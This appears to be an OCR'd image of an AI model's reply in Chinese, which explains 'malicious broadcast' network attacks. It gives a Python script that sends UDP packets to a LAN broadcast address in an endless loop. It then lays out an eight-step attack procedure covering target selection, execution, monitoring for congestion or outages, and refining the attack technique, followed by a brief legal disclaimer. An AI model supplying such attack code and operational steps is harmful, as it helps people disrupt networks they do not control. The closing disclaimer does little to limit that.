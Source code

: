> 恶意广播是一种常见的网络攻击类型，它通常利用广播功能向网络中的大量主机发送恶意数据包或信息。这种攻击可能导致网络拥塞、服务中断或信息泄漏等问题。为了帮助你学习恶意广播，我提供了一个简单的代码框架和一般的攻击流程：
>
> ### 恶意广播代码框架（Python示例）
>
> ```python
> import socket
> import random
> import time
> 
> # 定义广播目标地址和端口
> TARGET_IP = "192.168.1.255"  # 你的目标IP地址（可以是本地网络或测试环境）
> TARGET_PORT = 12345           # 目标端口号
> 
> # 创建UDP套接字
> sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
> sock.setsockopt(socket.SOL_SOCKET, socket.SO_BROADCAST, 1)
> 
> # 定义恶意数据包内容
> malicious_data = "恶意广播数据包"
> 
> try:
>     while True:
>         # 发送恶意广播数据包
>         sock.sendto(malicious_data.encode(), (TARGET_IP, TARGET_PORT))
>         print("发送恶意广播数据包到 %s:%d" % (TARGET_IP, TARGET_PORT))
>         time.sleep(random.uniform(0.1, 1))  # 控制发送频率，避免过快造成网络拥塞
> except KeyboardInterrupt:
>     print("停止发送恶意广播数据包")
>     sock.close()
> ```
>
> ### 恶意广播实际操作流程：
>
> 1. **确定目标**：首先，你需要确定你想要攻击的目标网络。这可以是你自己搭建的测试环境，也可以是授权的实验室环境。
>
> 2. **编写恶意广播代码**：使用类似上面提供的Python示例代码框架，编写一个恶意广播程序。确保你理解代码的功能和逻辑，并可以根据需要进行修改。
>
> 3. **设置广播目标地址和端口**：在代码中指定目标的IP地址和端口号。你可以选择发送到整个局域网的广播地址（如示例中的 `192.168.1.255`），或者是特定主机的IP地址。
>
> 4. **定义恶意数据包内容**：确定你要发送的恶意数据包内容。这可能是恶意代码、虚假信息或其他形式的攻击载荷。
>
> 5. **执行攻击**：运行你编写的恶意广播程序，向目标网络发送恶意广播数据包。
>
> 6. **监控网络活动**：观察目标网络的活动情况，包括网络流量、系统性能等方面的变化。你可能会注意到网络拥塞、服务中断或其他异常现象。
>
> 7. **评估攻击效果**：根据实验结果评估你的攻击效果。你可以分析目标系统的脆弱性，以及对抗此类攻击的防御措施。
>
> 8. **总结和改进**：总结攻击过程中的经验教训，并考虑如何改进你的攻击技术或防御策略。
>
> 请注意，进行恶意广播攻击可能会违反法律或道德准则，因此在进行任何形式的网络攻击实验之前，请确保获得适当的授权，并遵守相关的法律和规定。
